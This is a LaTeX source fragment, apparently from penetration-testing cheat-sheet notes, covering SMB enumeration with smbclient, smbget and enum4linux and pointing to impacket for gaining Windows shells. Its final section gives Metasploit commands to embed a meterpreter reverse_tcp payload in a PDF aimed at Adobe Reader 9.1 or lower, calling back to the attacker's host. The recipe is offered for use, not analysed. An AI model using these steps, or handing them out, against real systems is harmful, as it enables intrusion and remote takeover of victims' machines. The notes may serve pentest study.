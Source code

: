 \documentclass[12pt,a4paper]{scrartcl}
\begin{document}
\subsection{smbclient}
smbclient allows you to do most of the things you can do with smbmap, and it also offers you and interactive prompt.
\begin{lstlisting}
	smbclient //<ip>/anonymous
\end{lstlisting}

\subsection{smbget}
\begin{lstlisting}
	smbget -R smb://<ip>/anonymous
\end{lstlisting}

\subsection{impacket}
impacket is a collection of extremely useful windows scripts. It is worth mentioning here, as it has many scripts available that use samba to enumerate and even gain shell access to windows machines. All scripts can be found here:\\ \url{https://github.com/SecureAuthCorp/impacket}\\\\
Note: impacket has scripts that use other protocols and services besides samba.

\subsection{Enum4linux}
\begin{lstlisting}
	enum4linux $IP
\end{lstlisting}

\section{Miscellaneous}

\subsection{Embedding an exploit in a pdf file}
This exploit only works on Adobe Reader Version 9.1 or lower.
\begin{lstlisting}
	msf > use exploit/windows/fileformat/adobe_pdf_embedded_exe
	
	msf > exploit (adobe_pdf_embedded_exe) > set payload 
	windows/meterpreter/reverse_tcp
	
	msf > exploit (adobe_pdf_embedded_exe) > set INFILENAME 
	chapter1.pdf
	
	msf > exploit (adobe_pdf_embedded_exe) > set FILENAME 
	chapter1.pdf
	
	msf > exploit (adobe_pdf_embedded_exe) > set LHOST $YOURIP
	
	exploit
\end{lstlisting}
\end{document}
